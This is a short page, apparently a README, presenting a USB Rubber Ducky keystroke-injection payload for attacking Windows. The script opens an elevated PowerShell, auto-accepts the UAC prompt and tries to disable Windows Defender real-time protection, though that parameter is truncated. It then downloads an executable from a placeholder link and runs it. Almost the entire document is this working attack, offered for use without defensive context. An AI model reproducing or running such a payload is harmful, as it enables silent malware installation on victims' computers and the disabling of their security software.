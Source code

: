 # Hack Windows Using RubberDucky – Keystroke Injection

### Ducky Script Command Reference
#### FOR MORE INFO VISIT: https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Payloads

``` GUI r
DELAY 200
STRING powershell Start-Process powershell -Verb runAs
ENTER
DELAY 2000
ALT y
DELAY 900
STRING Set-MpPreference -DisableRea $true; 
$d = New-Object System.Net.WebClient; 
$f = '1.exe'; 
$d.DownloadFile('YOUR PAYLOAD DOWNLOAD LINK',$f); 
$e = New-Object -com shell.application; $e.shellexecute($f); 
exit; ```
